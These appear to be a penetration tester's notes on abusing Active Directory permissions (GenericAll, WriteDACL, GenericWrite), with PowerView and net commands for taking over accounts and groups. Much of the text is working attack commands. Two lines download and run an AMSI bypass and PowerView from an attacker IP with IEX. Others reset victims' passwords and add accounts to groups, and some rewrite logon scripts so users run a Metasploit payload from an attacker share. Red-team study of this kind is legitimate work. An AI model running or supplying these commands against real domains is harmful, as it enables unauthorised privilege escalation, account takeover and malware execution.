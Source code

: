 ### Theory
- See diagram:  https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse#activedirectory
- DACLs & ACEs - first match principle; ACE structure as SDDL - ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
    - apply to users, computers, groups, etc.
- Abusable Permissions:
    - GenericAll - full rights to the object (add users to a group or reset user's password); abused with Set-DomainUserPassword or Add-DomainGroupMember
    - GenericWrite - update object's attributes (i.e logon script); abused with Set-DomainObject
    - WriteOwner - change object owner to attacker controlled user take over the object; abused with Set-DomainObjectOwner
    - WriteDACL - modify object's ACEs and give attacker full control right over the object; abused with Add-DomainObjectACL
    - AllExtendedRights - ability to add user to a group or reset password; abused with - Set-DomainUserPassword or Add-DomainGroupMember
    - ForceChangePassword - ability to change user's password; abused with Set-DomainUserPassword
    - Self (Self-Membership) - ability to add yourself to a group
    - AddMembers - abused with Add-DomainGroupMember
    - **Many More**

### Enumeration with PowerView
- Any domain user can query DACL for any object

`. .\powerview.ps1`

`(new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX`

`(new-object system.net.webclient).downloadstring('http://192.168.49.121/PowerView.ps1') | IEX`

`Get-ObjectAcl -Identity <user/computer/thing>`
    
    `ConvertFrom-SID "S........."`
    - Better:  `Get-ObjectAcl -Identity <user/computer/thing> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}`
- Domain Users we have rights over:  `Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`
- Domain Groups we have rights over:  `Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`

### Other Tools
- Checking individual objects - aced.py:
    
    `python3 aced.py prod.abc.com/user:pass@192.168.1.70`
    
    `"Domain Admins", etc.`
- **BloodHound - Use it!**

### Abusing GenericAll
- User - change password:  `net user testservice1 h4x /domain`
    - Also possible if you have ForceChangePassword or AllExtendedRights right
- Group - add yourself:  `net group testgroup <user> /add /domain`
    - Also possible with AllExtendedRights or GenericWrite

### Abusing WriteDACL
- User:
    - Step 1 - give yourself rights:  `Add-DomainObjectAcl -TargetIdentity testservice2 PrincipalIdentity offsec -Rights All`
        - Confirm:  `Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`
    - Step 2 - use rights (change pw):  `net user testservice2 h4x /domain`
- Group:
    - Step 1 - give yourself rights:  `Add-DomainObjectAcl -TargetIdentity "MAILADMINS" -PrincipalIdentity SqlSvc -Domain tricky.com -Rights All -Verbose`
    - Step 2 - use rights (add yourself):  `Add-DomainGroupMember -Identity MAILADMINS -Domain TRICKY.com -Members SqlSvc`

### Abusing GenericWrite
- User: overwrite logon script
    
    `Set-ADObject -SamAccountName TestService3 -PropertyName scriptpath -PropertyValue "\\192.168.45.210\share\run.txt"`
    
    `Set-DomainObject TestService3 -Set @{'msTSTnitialProgram'='\\192.168.45.210\share\msf.exe'} -Verbose`
    
    `Set-DomainObject TestService3 -Set @{'scriptPath'='\\192.168.45.210\share\msf.exe'} -Verbose`
- Group: add user (yourself)
- Computer: Resource-Based Constrained Delegation Attack...